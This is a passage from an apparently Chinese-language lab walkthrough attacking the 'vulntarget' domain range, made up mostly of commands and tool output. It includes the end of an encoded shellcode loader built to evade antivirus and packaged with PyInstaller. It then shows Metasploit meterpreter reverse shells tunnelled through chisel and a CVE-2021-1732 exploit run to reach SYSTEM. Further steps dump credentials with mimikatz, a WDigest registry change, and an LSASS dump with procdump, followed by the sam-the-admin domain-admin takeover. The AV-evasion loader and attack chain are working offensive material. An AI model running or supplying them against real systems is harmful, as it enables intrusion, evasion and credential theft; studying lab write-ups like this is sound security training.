"\x42\x49\x68\x63\x42\x30\x5a\x30\x67\x42\x30\x45\x53\x4c"
"\x51\x43\x43\x4c\x53\x42\x68\x4a\x41\x64\x42\x51\x34\x31"
"\x5a\x4e\x4d\x63\x6c\x49\x2f\x38\x6c\x42\x69\x7a\x53\x49"
"\x53\x41\x48\x57\x53\x44\x48\x41\x51\x63\x48\x4a\x44\x61"
"\x78\x42\x41\x63\x45\x34\x34\x48\x58\x78\x54\x41\x4e\x4d"
"\x4a\x41\x68\x46\x4f\x64\x46\x31\x32\x46\x68\x45\x69\x30"
"\x41\x6b\x53\x51\x48\x51\x5a\x6b\x47\x4c\x44\x45\x68\x45"
"\x69\x30\x41\x63\x53\x51\x48\x51\x51\x59\x73\x45\x69\x45"
"\x46\x59\x51\x56\x68\x65\x57\x55\x67\x42\x30\x46\x70\x42"
"\x57\x45\x46\x5a\x51\x56\x70\x49\x67\x2b\x77\x67\x51\x56"
"\x4c\x2f\x34\x46\x68\x42\x57\x56\x70\x49\x69\x78\x4c\x70"
"\x53\x2f\x2f\x2f\x2f\x31\x31\x4a\x76\x6e\x64\x7a\x4d\x6c"
"\x38\x7a\x4d\x67\x41\x41\x51\x56\x5a\x4a\x69\x65\x5a\x49"
"\x67\x65\x79\x67\x41\x51\x41\x41\x53\x59\x6e\x6c\x53\x62"
"\x77\x43\x41\x42\x46\x63\x43\x67\x41\x55\x48\x6b\x46\x55"
"\x53\x59\x6e\x6b\x54\x49\x6e\x78\x51\x62\x70\x4d\x64\x79"
"\x59\x48\x2f\x39\x56\x4d\x69\x65\x70\x6f\x41\x51\x45\x41"
"\x41\x46\x6c\x42\x75\x69\x6d\x41\x61\x77\x44\x2f\x31\x57"
"\x6f\x4b\x51\x56\x35\x51\x55\x45\x30\x78\x79\x55\x30\x78"
"\x77\x45\x6a\x2f\x77\x45\x69\x4a\x77\x6b\x6a\x2f\x77\x45"
"\x69\x4a\x77\x55\x47\x36\x36\x67\x2f\x66\x34\x50\x2f\x56"
"\x53\x49\x6e\x48\x61\x68\x42\x42\x57\x45\x79\x4a\x34\x6b"
"\x69\x4a\x2b\x55\x47\x36\x6d\x61\x56\x30\x59\x66\x2f\x56"
"\x68\x63\x42\x30\x43\x6b\x6e\x2f\x7a\x6e\x58\x6c\x36\x4a"
"\x4d\x41\x41\x41\x42\x49\x67\x2b\x77\x51\x53\x49\x6e\x69"
"\x54\x54\x48\x4a\x61\x67\x52\x42\x57\x45\x69\x4a\x2b\x55"
"\x47\x36\x41\x74\x6e\x49\x58\x2f\x2f\x56\x67\x2f\x67\x41"
"\x66\x6c\x56\x49\x67\x38\x51\x67\x58\x6f\x6e\x32\x61\x6b"
"\x42\x42\x57\x57\x67\x41\x45\x41\x41\x41\x51\x56\x68\x49"
"\x69\x66\x4a\x49\x4d\x63\x6c\x42\x75\x6c\x69\x6b\x55\x2b"
"\x58\x2f\x31\x55\x69\x4a\x77\x30\x6d\x4a\x78\x30\x30\x78"
"\x79\x55\x6d\x4a\x38\x45\x69\x4a\x32\x6b\x69\x4a\x2b\x55"
"\x47\x36\x41\x74\x6e\x49\x58\x2f\x2f\x56\x67\x2f\x67\x41"
"\x66\x53\x68\x59\x51\x56\x64\x5a\x61\x41\x42\x41\x41\x41"
"\x42\x42\x57\x47\x6f\x41\x57\x6b\x47\x36\x43\x79\x38\x50"
"\x4d\x50\x2f\x56\x56\x31\x6c\x42\x75\x6e\x56\x75\x54\x57"
"\x48\x2f\x31\x55\x6e\x2f\x7a\x75\x6b\x38\x2f\x2f\x2f\x2f"
"\x53\x41\x48\x44\x53\x43\x6e\x47\x53\x49\x58\x32\x64\x62"
"\x52\x42\x2f\x2b\x64\x59\x61\x67\x42\x5a\x53\x63\x66\x43"
"\x38\x4c\x57\x69\x56\x76\x2f\x56" '''
    keys = 'Axx8'
    shell_code = encode(ShellCode.strip().replace('"','').replace('\n', ''),keys)
    shellcode = decode(shell_code,keys)
    shellcode = base64.b64decode(shellcode)
    run(shellcode)
```

将 python 脚本打包为二进制文件

```shell
PS D:\_Code\test> pyinstaller -F -w .\Bypass_AV-20250203.py
227 INFO: PyInstaller: 6.11.0, contrib hooks: 2024.9
227 INFO: Python: 3.11.8
234 INFO: Platform: Windows-10-10.0.22631-SP0
234 INFO: Python environment: D:\_Code\test\env
235 INFO: wrote D:\_Code\test\Bypass_AV-20250203.spec
238 INFO: Module search paths (PYTHONPATH):
['D:\\_Code\\test\\env\\Scripts\\pyinstaller.exe',
 'C:\\Users\\Randark\\AppData\\Local\\Programs\\Python\\Python311\\python311.zip',
 'C:\\Users\\Randark\\AppData\\Local\\Programs\\Python\\Python311\\DLLs',
 'C:\\Users\\Randark\\AppData\\Local\\Programs\\Python\\Python311\\Lib',
 'C:\\Users\\Randark\\AppData\\Local\\Programs\\Python\\Python311',
 'D:\\_Code\\test\\env',
 'D:\\_Code\\test\\env\\Lib\\site-packages',
 'D:\\_Code\\test\\env\\Lib\\site-packages\\win32',
 'D:\\_Code\\test\\env\\Lib\\site-packages\\win32\\lib',
 'D:\\_Code\\test\\env\\Lib\\site-packages\\Pythonwin',
 'D:\\_Code\\test']
601 INFO: checking Analysis
601 INFO: Building Analysis because Analysis-00.toc is non existent
601 INFO: Running Analysis Analysis-00.toc
601 INFO: Target bytecode optimization level: 0
601 INFO: Initializing module dependency graph...
602 INFO: Initializing module graph hook caches...
622 INFO: Analyzing base_library.zip ...
1595 INFO: Processing standard module hook 'hook-heapq.py' from 'D:\\_Code\\test\\env\\Lib\\site-packages\\PyInstaller\\hooks'
1646 INFO: Processing standard module hook 'hook-encodings.py' from 'D:\\_Code\\test\\env\\Lib\\site-packages\\PyInstaller\\hooks'
2694 INFO: Processing standard module hook 'hook-pickle.py' from 'D:\\_Code\\test\\env\\Lib\\site-packages\\PyInstaller\\hooks'
3632 INFO: Caching module dependency graph...
3708 INFO: Looking for Python shared library...
3717 INFO: Using Python shared library: C:\Users\Randark\AppData\Local\Programs\Python\Python311\python311.dll
3717 INFO: Analyzing D:\_Code\test\Bypass_AV-20250203.py
3732 INFO: Processing module hooks (post-graph stage)...
3736 INFO: Performing binary vs. data reclassification (2 entries)
3737 INFO: Looking for ctypes DLLs
3756 INFO: Analyzing run-time hooks ...
3757 INFO: Including run-time hook 'pyi_rth_inspect.py' from 'D:\\_Code\\test\\env\\Lib\\site-packages\\PyInstaller\\hooks\\rthooks'
3761 INFO: Looking for dynamic libraries
3877 INFO: Extra DLL search directories (AddDllDirectory): []
3877 INFO: Extra DLL search directories (PATH): []
4115 INFO: Warnings written to D:\_Code\test\build\Bypass_AV-20250203\warn-Bypass_AV-20250203.txt
4127 INFO: Graph cross-reference written to D:\_Code\test\build\Bypass_AV-20250203\xref-Bypass_AV-20250203.html
4147 INFO: checking PYZ
4147 INFO: Building PYZ because PYZ-00.toc is non existent
4147 INFO: Building PYZ (ZlibArchive) D:\_Code\test\build\Bypass_AV-20250203\PYZ-00.pyz
4370 INFO: Building PYZ (ZlibArchive) D:\_Code\test\build\Bypass_AV-20250203\PYZ-00.pyz completed successfully.
4381 INFO: checking PKG
4381 INFO: Building PKG because PKG-00.toc is non existent
4381 INFO: Building PKG (CArchive) Bypass_AV-20250203.pkg
5786 INFO: Building PKG (CArchive) Bypass_AV-20250203.pkg completed successfully.
5787 INFO: Bootloader D:\_Code\test\env\Lib\site-packages\PyInstaller\bootloader\Windows-64bit-intel\runw.exe
5787 INFO: checking EXE
5787 INFO: Building EXE because EXE-00.toc is non existent
5787 INFO: Building EXE from EXE-00.toc
5788 INFO: Copying bootloader EXE to D:\_Code\test\dist\Bypass_AV-20250203.exe
6023 INFO: Copying icon to EXE
6145 INFO: Copying 0 resources to EXE
6145 INFO: Embedding manifest in EXE
6270 INFO: Appending PKG archive to EXE
6278 INFO: Fixing EXE headers
6330 INFO: Building EXE from EXE-00.toc completed successfully.
```

上传至靶机之后，先添加端口转发和监听器

```shell
# Centos
(remote) www@localhost.localdomain:/tmp$ ./chisel_1.9.1_linux_amd64 client 192.168.200.128:1337 0.0.0.0:4444:127.0.0.1:4444 &
[3] 36534
2025/02/03 20:42:45 client: Connecting to ws://192.168.200.128:1337
2025/02/03 20:42:45 client: tun: proxy#4444=>4444: Listening
2025/02/03 20:42:45 client: Connected (Latency 1.042155ms)

# kali
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:4444
```

执行文件


成功上线

```shell
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:4444
[*] Sending stage (203846 bytes) to 127.0.0.1
[*] Meterpreter session 5 opened (127.0.0.1:4444 -> 127.0.0.1:34504) at 2025-02-03 20:42:55 +0800

meterpreter > sysinfo
Computer        : WIN10
OS              : Windows 10 (10.0 Build 18363).
Architecture    : x64
System Language : zh_CN
Domain          : VULNTARGET
Logged On Users : 6
Meterpreter     : x64/windows
```

## win10 提权

先进行探测

```shell
meterpreter > run post/multi/recon/local_exploit_suggester

[*] 10.0.20.66 - Collecting local exploits for x64/windows...
[*] 10.0.20.66 - 198 exploit checks are being tried...
[+] 10.0.20.66 - exploit/windows/local/bits_ntlm_token_impersonation: The target appears to be vulnerable.
[+] 10.0.20.66 - exploit/windows/local/bypassuac_dotnet_profiler: The target appears to be vulnerable.
[+] 10.0.20.66 - exploit/windows/local/bypassuac_fodhelper: The target appears to be vulnerable.
[+] 10.0.20.66 - exploit/windows/local/bypassuac_sdclt: The target appears to be vulnerable.
[+] 10.0.20.66 - exploit/windows/local/bypassuac_sluihijack: The target appears to be vulnerable.
[+] 10.0.20.66 - exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move: The target appears to be vulnerable. Vulnerable Windows 10 v1909 build detected!
[+] 10.0.20.66 - exploit/windows/local/cve_2020_0796_smbghost: The target appears to be vulnerable.
[+] 10.0.20.66 - exploit/windows/local/cve_2020_1048_printerdemon: The target appears to be vulnerable.
[+] 10.0.20.66 - exploit/windows/local/cve_2020_1313_system_orchestrator: The target appears to be vulnerable.
[+] 10.0.20.66 - exploit/windows/local/cve_2020_1337_printerdemon: The target appears to be vulnerable.
[+] 10.0.20.66 - exploit/windows/local/cve_2020_17136: The target appears to be vulnerable. A vulnerable Windows 10 v1909 build was detected!
[+] 10.0.20.66 - exploit/windows/local/cve_2021_40449: The target appears to be vulnerable. Vulnerable Windows 10 v1909 build detected!
[+] 10.0.20.66 - exploit/windows/local/cve_2022_21882_win32k: The target appears to be vulnerable.
[+] 10.0.20.66 - exploit/windows/local/cve_2022_21999_spoolfool_privesc: The target appears to be vulnerable.
[+] 10.0.20.66 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[*] Running check method for exploit 47 / 47
[*] 10.0.20.66 - Valid modules for session 5:
============================

 #   Name                                                           Potentially Vulnerable?  Check Result
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/bits_ntlm_token_impersonation            Yes                      The target appears to be vulnerable.
 2   exploit/windows/local/bypassuac_dotnet_profiler                Yes                      The target appears to be vulnerable.
 3   exploit/windows/local/bypassuac_fodhelper                      Yes                      The target appears to be vulnerable.
 4   exploit/windows/local/bypassuac_sdclt                          Yes                      The target appears to be vulnerable.
 5   exploit/windows/local/bypassuac_sluihijack                     Yes                      The target appears to be vulnerable.
 6   exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move   Yes                      The target appears to be vulnerable. Vulnerable Windows 10 v1909 build detected!
 7   exploit/windows/local/cve_2020_0796_smbghost                   Yes                      The target appears to be vulnerable.
 8   exploit/windows/local/cve_2020_1048_printerdemon               Yes                      The target appears to be vulnerable.
 9   exploit/windows/local/cve_2020_1313_system_orchestrator        Yes                      The target appears to be vulnerable.
 10  exploit/windows/local/cve_2020_1337_printerdemon               Yes                      The target appears to be vulnerable.
 11  exploit/windows/local/cve_2020_17136                           Yes                      The target appears to be vulnerable. A vulnerable Windows 10 v1909 build was detected!
 12  exploit/windows/local/cve_2021_40449                           Yes                      The target appears to be vulnerable. Vulnerable Windows 10 v1909 build detected!
 13  exploit/windows/local/cve_2022_21882_win32k                    Yes                      The target appears to be vulnerable.
 14  exploit/windows/local/cve_2022_21999_spoolfool_privesc         Yes                      The target appears to be vulnerable.
 15  exploit/windows/local/ms16_075_reflection                      Yes                      The target appears to be vulnerable.
 16  exploit/windows/local/agnitum_outpost_acs                      No                       The target is not exploitable.
 17  exploit/windows/local/always_install_elevated                  No                       The target is not exploitable.
 18  exploit/windows/local/bypassuac_comhijack                      No                       The target is not exploitable.
 19  exploit/windows/local/bypassuac_eventvwr                       No                       The target is not exploitable.
 20  exploit/windows/local/canon_driver_privesc                     No                       The target is not exploitable. No Canon TR150 driver directory found
 21  exploit/windows/local/capcom_sys_exec                          No                       The target is not exploitable.
 22  exploit/windows/local/cve_2019_1458_wizardopium                No                       The target is not exploitable.
 23  exploit/windows/local/cve_2020_1054_drawiconex_lpe             No                       The target is not exploitable. No target for win32k.sys version 10.0.18362.387
 24  exploit/windows/local/cve_2021_21551_dbutil_memmove            No                       The target is not exploitable.
 25  exploit/windows/local/cve_2022_3699_lenovo_diagnostics_driver  No                       The target is not exploitable.
 26  exploit/windows/local/cve_2023_21768_afd_lpe                   No                       The target is not exploitable. The exploit only supports Windows 11 22H2
 27  exploit/windows/local/cve_2023_28252_clfs_driver               No                       The target is not exploitable.
 28  exploit/windows/local/cve_2024_30088_authz_basep               No                       The target is not exploitable. Version detected: Windows 10+ Build 18363
 29  exploit/windows/local/gog_galaxyclientservice_privesc          No                       The target is not exploitable. Galaxy Client Service not found
 30  exploit/windows/local/ikeext_service                           No                       The check raised an exception.
 31  exploit/windows/local/lexmark_driver_privesc                   No                       The target is not exploitable. No Lexmark print drivers in the driver store
 32  exploit/windows/local/ms10_092_schelevator                     No                       The target is not exploitable. Windows 10 (10.0 Build 18363). is not vulnerable
 33  exploit/windows/local/ms14_058_track_popup_menu                No                       Cannot reliably check exploitability.
 34  exploit/windows/local/ms15_051_client_copy_image               No                       The target is not exploitable.
 35  exploit/windows/local/ms15_078_atmfd_bof                       No                       The target is not exploitable.
 36  exploit/windows/local/ms16_014_wmi_recv_notif                  No                       The target is not exploitable.
 37  exploit/windows/local/ms16_032_secondary_logon_handle_privesc  No                       The target is not exploitable.
 38  exploit/windows/local/ms16_075_reflection_juicy                No                       The target is not exploitable.
 39  exploit/windows/local/ntapphelpcachecontrol                    No                       The check raised an exception.
 40  exploit/windows/local/nvidia_nvsvc                             No                       The check raised an exception.
 41  exploit/windows/local/panda_psevents                           No                       The target is not exploitable.
 42  exploit/windows/local/ricoh_driver_privesc                     No                       The target is not exploitable. No Ricoh driver directory found
 43  exploit/windows/local/srclient_dll_hijacking                   No                       The target is not exploitable. Target is not Windows Server 2012.
 44  exploit/windows/local/tokenmagic                               No                       The target is not exploitable.
 45  exploit/windows/local/virtual_box_opengl_escape                No                       The target is not exploitable.
 46  exploit/windows/local/webexec                                  No                       The check raised an exception.
 47  exploit/windows/local/win_error_cve_2023_36874                 No                       The target is not exploitable.
```

尝试进行自动化利用，但是失败

```shell
msf6 > use exploit/windows/local/cve_2022_21882_win32k
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/cve_2022_21882_win32k) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(windows/local/cve_2022_21882_win32k) > set lport 4444
lport => 4444
msf6 exploit(windows/local/cve_2022_21882_win32k) > set session 5
session => 5
msf6 exploit(windows/local/cve_2022_21882_win32k) > exploit

[*] Started reverse TCP handler on 0.0.0.0:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Launching msiexec to host the DLL...
[+] Process 1364 launched.
[*] Reflectively injecting the DLL into 1364...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Exploit completed, but no session was created.
```

尝试手动 [linuxdy/CVE-2021-1732_exp](https://github.com/linuxdy/CVE-2021-1732_exp) 进行利用，记得使用 shelcode 进行免杀

```shell
meterpreter > shell
Process 4348 created.
Channel 1 created.
Microsoft Windows [�汾 10.0.18363.418]
(c) 2019 Microsoft Corporation����������Ȩ����

C:\Users\Public>.\CVE-2021-1732_exploit.exe whoami
.\CVE-2021-1732_exploit.exe whoami
�밴���������. . .

CreateWnd
Hwnd:000200ba   qwfirstEntryDesktop=00000237C4B915B0
BaseAddress:00000237C4B91000   RegionSize=:0000000000003000
Hwnd:000200bc   qwfirstEntryDesktop=00000237C4B91770
BaseAddress:00000237C4B91000   RegionSize=:0000000000003000
Hwnd:000200b4   qwfirstEntryDesktop=00000237C4B93C80
BaseAddress:00000237C4B93000   RegionSize=:0000000000001000
Hwnd:000200f0   qwfirstEntryDesktop=00000237C4B93E20
BaseAddress:00000237C4B93000   RegionSize=:0000000000001000
Hwnd:000600d6   qwfirstEntryDesktop=00000237C4B93FE0
BaseAddress:00000237C4B93000   RegionSize=:0000000000002000
Hwnd:00050088   qwfirstEntryDesktop=00000237C4B941A0
BaseAddress:00000237C4B94000   RegionSize=:0000000000001000
Hwnd:00060064   qwfirstEntryDesktop=00000237C4B94360
BaseAddress:00000237C4B94000   RegionSize=:0000000000001000
Hwnd:00020094   qwfirstEntryDesktop=00000237C4B94520
BaseAddress:00000237C4B94000   RegionSize=:0000000000001000
Hwnd:00020096   qwfirstEntryDesktop=00000237C4B946E0
BaseAddress:00000237C4B94000   RegionSize=:0000000000001000
Hwnd:00020098   qwfirstEntryDesktop=00000237C4B948A0
BaseAddress:00000237C4B94000   RegionSize=:0000000000001000
Min BaseAddress:00000237C4B91000   RegionSize=:0000000000003000
MagciHwnd==0000000000030098
realMagicHwnd=0000000000030098
dwRet=00000000000018E0
tagWndMin_offset_0x128=00000000000018E0
g_qwExpLoit=FFFFBDDF40822D20
qwFrist read=FFFFBDDF40833BD0
qwSecond read=FFFFDA8E02CF96A0
qwSecond read=FFFFBDDF426E0000
qwFourth read=FFFFBDDF428F0010
qwFifth read=FFFFDA8E02BC7080
qwSixth read=FFFFDA8E041EE0C0
[*] Trying to execute whoami as SYSTEM
[+] ProcessCreated with pid 5632!
===============================
nt authority\system

�밴���������. . .
```

提权可行的话，直接上线 msf

```shell
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:4444
[*] Sending stage (203846 bytes) to 127.0.0.1
[*] Meterpreter session 7 opened (127.0.0.1:4444 -> 127.0.0.1:37890) at 2025-02-03 21:04:05 +0800

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN10
OS              : Windows 10 (10.0 Build 18363).
Architecture    : x64
System Language : zh_CN
Domain          : VULNTARGET
Logged On Users : 7
Meterpreter     : x64/windows
```

## win10 抓取域信息

```shell
meterpreter > run post/windows/gather/enum_domain

[+] Domain FQDN: vulntarget.com
[+] Domain NetBIOS Name: VULNTARGET
[+] Domain Controller: WIN-UH20PRD3EAO.vulntarget.com (IP: 10.0.10.100)
```

直接抓取密码会失败

```shell
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` (benjamin@gentilkiwi.com)
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            (vincent.letoux@gmail.com)
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username       Domain      NTLM                              SHA1
--------       ------      ----                              ----
Administrator  WIN10       579da618cfbfa85247acf1f800a280a4  39f572eceeaa2174e87750b52071582fc7f13118
WIN10$         VULNTARGET  5d35b34708ecc51f89410a3b5e2189a3  bb9ee2d8ae83b56766f05625aa6bd8069cc51a3c

wdigest credentials
===================

Username       Domain      Password
--------       ------      --------
(null)         (null)      (null)
Administrator  WIN10       (null)
WIN10$         VULNTARGET  (null)

kerberos credentials
====================

Username       Domain          Password
--------       ------          --------
(null)         (null)          (null)
Administrator  WIN10           (null)
WIN10$         vulntarget.com  76 35 f7 b0 3b 4c bb a7 4c 3b 70 18 97 a7 0f eb ca 2f c3 63 27 48 a4 6e 8f 60 13 38 8b 8b 12 e1 69 e5 48 52 9f 9c 3b 11 41 0d 4c ed 96 a4 a0 9d c5 b5 0b 00 1c 71 4c 41 90 6e 6
                               0 21 33 57 a1 c3 03 e1 83 4c 64 0e 45 8a ec d4 8a 32 8d 26 94 86 43 01 d2 8e 0b 7a a9 71 82 dd af cb 83 15 4c 5a 07 79 58 b9 a9 52 1b 90 d3 2e bc 90 87 12 cf 90 12 17 2d 44 1e
                                81 19 df 8e 4c 69 1c 94 07 32 1c d2 6e 63 02 6f a8 3c a9 0f 9d 83 c8 e0 57 50 ba 56 09 5e eb 09 78 0a 31 cb 69 ff b2 6e 6c a6 92 5c d7 6b d0 a5 39 20 f0 0d ef 47 63 ae 3f 1e
                               53 ae 2c 06 ea b4 7f e5 7d 00 06 7b 7e 45 42 2f 58 da df ea cc 28 18 de de cd 9e c8 ff 9b 91 ed 45 f6 08 87 56 39 46 ac a6 cd 87 9a e8 2e 9b d6 5b bb cd bb d9 c3 f8 1c a3 d7 0
                               4 c8 71 0c 3e 5f 01
win10$         VULNTARGET.COM  (null)
```

两种方案，一种是修改注册表之后重启，可以看到明文密码

```plaintext
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
```

另外一种，就是利用 [ProcDump - Sysinternals | Microsoft Learn](https://learn.microsoft.com/en-us/sysinternals/downloads/procdump) 抓取 LSASS 进程的内存，然后本地用mimikatz进行分析

```shell
# win10 capture memory
.\procdump64.exe -accepteula -ma lsass.exe lsass.dmp

# analysis memory
.\mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit
```

即可得到域成员的凭据 `vulntarget.com/win101:admin#123`

剩下一台内网域控，在二层内网

## DC Impersonate DA

先建立代理

```shell
# centos
(remote) www@localhost.localdomain:/tmp$ ./chisel_1.9.1_linux_amd64 client 192.168.200.128:1337 0.0.0.0:1337:192.168.200.128:1337 &
[4] 38751
2025/02/03 21:19:29 client: Connecting to ws://192.168.200.128:1337
2025/02/03 21:19:29 client: tun: proxy#1337=>192.168.200.128:1337: Listening
2025/02/03 21:19:29 client: Connected (Latency 896.553µs)

# win10
C:\Users\Public>.\chisel_1.9.1_windows_amd6.exe client 10.0.20.30:1337 R:0.0.0.0:10001:socks
2025/02/03 21:20:38 client: Connecting to ws://10.0.20.30:1337
2025/02/03 21:20:38 client: Connected (Latency 1.9919ms)
```

尝试使用 [safebuffer/sam-the-admin: Exploiting CVE-2021-42278 and CVE-2021-42287 to impersonate DA from standard domain user](https://github.com/safebuffer/sam-the-admin) 进行利用

```shell
┌──(randark㉿kali)-[~]
└─$ proxychains python3 ./tools/sam-the-admin/sam_the_admin.py "vulntarget.com/win101:admin#123" -dc-ip 10.0.10.100 -shell       
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[proxychains] Strict chain  ...  127.0.0.1:10005  ...  10.0.10.100:389  ...  OK
[-] WARNING: Target host is not a DC
[*] Selected Target win-uh20prd3eao.vulntarget.com
[*] Total Domain Admins 1
[*] will try to impersonate Administrator
[*] Current ms-DS-MachineAccountQuota = 10
[*] Adding Computer Account "SAMTHEADMIN-55$"
[*] MachineAccount "SAMTHEADMIN-55$" password = kXNCabfMO0H)
[proxychains] Strict chain  ...  127.0.0.1:10005  ...  10.0.10.100:135  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:10005  ...  10.0.10.100:445  ...  OK
[*] Successfully added machine account SAMTHEADMIN-55$ with password kXNCabfMO0H).
[*] SAMTHEADMIN-55$ object = CN=SAMTHEADMIN-55,CN=Computers,DC=vulntarget,DC=com
[*] SAMTHEADMIN-55$ sAMAccountName == win-uh20prd3eao
[proxychains] Strict chain  ...  127.0.0.1:10005  ...  10.0.10.100:88  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:10005  ...  10.0.10.100:88  ...  OK
[*] Saving ticket in win-uh20prd3eao.ccache
[*] Resting the machine account to SAMTHEADMIN-55$
[*] Restored SAMTHEADMIN-55$ sAMAccountName to original value
[*] Using TGT from cache
[*] Impersonating Administrator
[*]     Requesting S4U2self
[proxychains] Strict chain  ...  127.0.0.1:10005  ...  10.0.10.100:88  ...  OK
[*] Saving ticket in Administrator.ccache
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[proxychains] Strict chain  ...  127.0.0.1:10005  ...  10.0.10.100:445  ...  OK
[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system
```
